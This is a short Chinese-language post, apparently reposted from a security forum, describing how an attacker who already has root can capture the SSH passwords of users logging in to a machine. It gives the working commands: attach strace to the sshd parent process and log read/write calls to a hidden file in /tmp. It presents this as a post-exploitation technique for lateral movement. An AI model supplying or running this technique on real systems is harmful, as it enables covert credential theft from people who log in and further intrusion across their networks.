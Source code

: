# strace监听ssh来源流量

> 原文：[https://www.zhihuifly.com/t/topic/3489](https://www.zhihuifly.com/t/topic/3489)

# strace监听ssh来源流量

不只是可以监听连接他人，还可以用来抓到别人连入的密码。应用场景如：通过漏洞获取root权限，但是不知道明文密码在横向扩展中可以使用。

之前有用别名的方式来抓取登陆其他机器时的密码、同样也可以利用strace来监听登陆本地的sshd流量。

```
ps -ef | grep sshd #父进程PID
strace -f -p 12617 -o /tmp/.ssh.log -e trace=read,write,connect -s 2048 
```

![image](img/80b66cc4f2ac6766f46a608cebdd7b67.png)

![image](img/f5e2c91201ce308ce9ac8f534bbff45a.png)